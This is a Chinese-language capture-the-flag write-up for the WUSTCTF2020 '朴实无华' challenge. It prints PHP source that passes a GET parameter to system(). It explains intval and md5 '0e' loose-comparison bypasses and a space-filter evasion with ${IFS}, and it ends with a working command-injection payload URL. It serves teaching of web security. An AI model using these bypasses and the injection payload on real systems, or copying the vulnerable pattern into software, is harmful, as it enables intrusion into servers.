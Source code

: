 # \[WUSTCTF2020]朴实无华

## \[WUSTCTF2020]朴实无华

## 考点

* robots.txt泄露
* intval绕过
* PHP使用0e开头的数字md5值仍以0e开头绕过md5限制
* 命令执行`${IFS}`或者`$IFS$9`绕过空格

## wp

robots.txt发现存在/fAke\_f1agggg.php，访问在返回头给了提示，fl4g.php

![](<../../.gitbook/assets/image (26) (1).png>)

访问后给了代码

```php
<?php
header('Content-type:text/html;charset=utf-8');
error_reporting(0);
highlight_file(__file__);

//level 1
if (isset($_GET['num'])){
    $num = $_GET['num'];
    if(intval($num) < 2020 && intval($num + 1) > 2021){
        echo "我不经意间看了看我的劳力士, 不是想看时间, 只是想不经意间, 让你知道我过得比你好.</br>";
    }else{
        die("金钱解决不了穷人的本质问题");
    }
}else{
    die("去非洲吧");
}
//level 2
if (isset($_GET['md5'])){
   $md5=$_GET['md5'];
   if ($md5==md5($md5))
       echo "想到这个CTFer拿到flag后, 感激涕零, 跑去东澜岸, 找一家餐厅, 把厨师轰出去, 自己炒两个拿手小菜, 倒一杯散装白酒, 致富有道, 别学小暴.</br>";
   else
       die("我赶紧喊来我的酒肉朋友, 他打了个电话, 把他一家安排到了非洲");
}else{
    die("去非洲吧");
}

//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "想到这里, 我充实而欣慰, 有钱人的快乐往往就是这么的朴实无华, 且枯燥.</br>";
        system($get_flag);
    }else{
        die("快到非洲了");
    }
}else{
    die("去非洲吧");
}
?> 
```

level 1要绕过intval函数，该函数用于获取变量的整数值，例如10e5就会获取10，4.5获取4，1e10就会获取1410065408，使用<mark style="color:orange;">`num=3e10`</mark>绕过

level 2要绕md5，利用PHP弱类型绕过，使用`0e215962017`绕过，`0e215962017`的md5值为`0e291242476940776845150308577824`

level 3要绕命令执行，过滤空格和cat，使用`$IFS$9`或者`${IFS}` 代替空格，`cat`可以换成`more`，`tac`

payload：`?num=3e10&md5=0e215962017&get_flag=tac${IFS}*`

